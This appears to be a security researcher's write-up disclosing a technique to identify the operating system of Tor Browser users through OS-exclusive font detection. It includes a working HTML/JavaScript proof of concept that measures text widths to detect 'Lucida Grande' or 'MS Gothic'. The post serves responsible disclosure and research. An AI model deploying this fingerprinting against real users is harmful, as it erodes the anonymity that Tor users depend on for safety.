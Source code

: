 ```yaml
---
layout: content
title: 'Detecting Tor Browser platform based on exclusive fonts rendering'
description: ''
og_image: https://heitorgouvea.me/images/publications/tor-detect-platform/tor-browser-macos.png
---
```


### Summary

Through the rendering of some specific Fonts, I discovered that it is possible to identify a user's operating system behind Tor and after reporting this to the Tor Project I was aware that they were already aware of the problem and there are already some implementations to minimize the impact of this vulnerability.

---

### Description

The Tor browser is based on Firefox, with its peculiarities and digital privacy/anonymity promises, in addition to all its engineering to hide the IP from its user, Tor also promises to combat identifications that are linked to a person’s operating system, such for example: techniques that use JavaScript to capture the screen size and identify a unique feature of it.

However, it is possible to find out the operating system of a person using Tor via a technique that makes use of Fonts "exclusive" to some operating systems.

For example, the font “Lucida Grande” is one of them, which by default is only installed on MacOS, so when an HTML page tries to render it and is successful it can be concluded that that user is using “Tor on a MacOS”, already an example to identify users “Tor on Windows” would be the font “MS Gothic” among many other examples.

After reporting this problem, I was told that the Tor Project is already aware of all of this, and some implementations are already present in the current version of Tor to reduce the impact of this vulnerability and there are also plans for the future so that it ceases to exist for complete.

---

### Proof of Concept

Exploit:

```html
<html>
    <head>
        <title>PoC Fingerprint</title>
        <meta charset="utf-8"/>
        <style type="text/css">
            body {
                font-family: "Lucida Grande";
            }
        </style>
    </head>
    <body>
        <h1>Hello World</h1>
    </body>
    <script>
        (function (document) {
            var width;
            var body = document.body;
            var container = document.createElement("span");

            container.innerHTML = Array(100).join("wi");
            container.style.cssText = [
                "position: absolute",
                "width: auto",
                "font-size: 128px",
                "left: -99999px"
            ].join(" !important;");

            var getWidth = function (fontFamily) {
                container.style.fontFamily = fontFamily;

                body.appendChild(container);
                width = container.clientWidth;
                body.removeChild(container);

                return width;
            };

            var monoWidth  = getWidth("monospace");
            var serifWidth = getWidth("serif");
            var sansWidth  = getWidth("sans-serif");

            window.isFontAvailable = function (font) {
                return monoWidth !== getWidth(font + ",monospace") ||
                sansWidth !== getWidth(font + ",sans-serif") ||
                serifWidth !== getWidth(font + ",serif");
            };
        })(document);

        if (isFontAvailable("Lucida Grande")) {
            alert("You are using the MacOS plataform");
        }

        else if (isFontAvailable("MS Gothic")) {
            alert("You are using the Windows plataform");
        }

        else {
            alert("You are not using the MacOs/Windows Platform");
        }
    </script>
</html>
```

User identification using Tor on MacOS:

![](/images/publications/tor-detect-platform/tor-browser-macos.png)


User identification using Tor on Windows: 

![](/images/publications/tor-detect-platform/tor-browser-macos.jpeg)

There is a margin of error in this technique, as a user can install fonts that are not the default for an operating system, but an attacker can make use of even more esoteric fonts...

User identification using Tor on Windows: 

---

### Impact

Through this technique it is possible to identify the operating system of a user who is using Tor, on a website with low traffic volume, this distinction is enough to exclusively track users, already for a high traffic website, allows you to track users in a unique way in a short period of time.

---

### Conclusion

This vulnerability can be combined with others to develop a profile unique enough to track users on Tor. However, it is reassuring to know that the team behind Tor Browser is extremely agile and is very close to the research community, this certainly helps a lot.

---

### References

* [https://www.torproject.org/](https://www.torproject.org/)
* [https://en.wikipedia.org/wiki/Tor_(anonymity_network)](https://en.wikipedia.org/wiki/Tor_(anonymity_network))
* [https://2019.www.torproject.org/projects/torbrowser/design/](https://2019.www.torproject.org/projects/torbrowser/design/)
* [https://gitlab.torproject.org/tpo/applications/tor-browser/-/issues/18097](https://gitlab.torproject.org/tpo/applications/tor-browser/-/issues/18097)
* [https://www.samclarke.com/javascript-is-font-available/](https://www.samclarke.com/javascript-is-font-available/)
